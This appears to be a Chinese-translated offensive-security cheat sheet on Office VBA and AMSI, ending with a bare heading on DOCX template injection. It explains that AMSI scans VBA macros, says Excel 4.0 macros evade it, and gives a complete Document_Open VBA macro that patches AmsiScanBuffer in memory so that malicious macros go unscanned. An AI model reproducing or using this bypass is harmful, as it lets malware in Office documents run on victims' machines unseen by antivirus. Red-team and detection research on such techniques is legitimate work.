 # 文档翻译

## VBA - AMSI

> Office VBA与AMSI的整合由三部分组成：(a) 记录宏行为，(b) 对可疑行为触发扫描，以及(c) 在检测到恶意宏时停止执行。https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/

![](https://www.microsoft.com/security/blog/wp-content/uploads/2018/09/fig2-runtime-scanning-amsi-8-1024x482.png)

:warning: 看来基于p-code的攻击，其中VBA代码被重写，仍会被AMSI引擎检测到（例如，通过我们的工具EvilClippy操纵的文件）。

AMSI引擎仅挂钩到VBA，我们可以通过使用Excel 4.0宏来绕过它。

* AMSI触发器 - https://github.com/synacktiv/AMSI-Bypass

```vb
Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProtect As Long, lpflOldProtect As Long) As Long
Private Declare PtrSafe Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)
 
Private Sub Document_Open()
    Dim AmsiDLL As LongPtr
    Dim AmsiScanBufferAddr As LongPtr
    Dim result As Long
    Dim MyByteArray(6) As Byte
    Dim ArrayPointer As LongPtr
 
    MyByteArray(0) = 184 ' 0xB8
    MyByteArray(1) = 87  ' 0x57
    MyByteArray(2) = 0   ' 0x00
    MyByteArray(3) = 7   ' 0x07
    MyByteArray(4) = 128 ' 0x80
    MyByteArray(5) = 195 ' 0xC3
 
    AmsiDLL = LoadLibrary("amsi.dll")
    AmsiScanBufferAddr = GetProcAddress(AmsiDLL, "AmsiScanBuffer")
    result = VirtualProtect(ByVal AmsiScanBufferAddr, 5, 64, 0)
    ArrayPointer = VarPtr(MyByteArray(0))
    CopyMemory ByVal AmsiScanBufferAddr, ByVal ArrayPointer, 6
     
End Sub
```

## DOCX - 模板注入

:warning: 不需要“启用宏”
